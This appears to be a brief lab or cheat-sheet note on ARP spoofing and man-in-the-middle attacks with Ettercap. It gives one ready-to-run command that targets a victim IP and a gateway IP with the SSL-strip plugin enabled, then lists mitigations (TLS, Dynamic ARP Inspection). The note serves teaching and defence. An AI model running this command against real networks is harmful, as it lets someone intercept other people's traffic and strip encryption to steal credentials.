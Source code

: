 ## ARP Spoofing & MITM – Ettercap

---

### 🎯 Objective
Intercept traffic between victim and gateway.

---

### 🧪 Command
```bash
sudo ettercap -T -M arp:remote /10.6.6.23/ /10.6.6.1/
```
* SSL-strip plugin enabled

---

### 📌 Mitigation
- Use TLS everywhere
- Enable Dynamic ARP Inspection on switches

---

### 📌 Take-Aways
ARP spoofing is trivial on unprotected LANs.

